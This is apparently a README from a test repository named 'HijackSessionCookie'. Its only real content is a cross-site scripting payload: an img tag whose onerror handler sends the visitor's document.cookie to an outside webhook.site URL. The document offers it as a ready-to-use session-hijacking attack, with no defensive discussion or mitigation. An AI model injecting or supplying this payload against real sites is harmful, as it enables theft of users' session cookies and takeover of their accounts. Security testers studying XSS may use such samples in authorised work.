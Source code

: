 # HijackSessionCookie
Test Repo

Payload
```
<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```
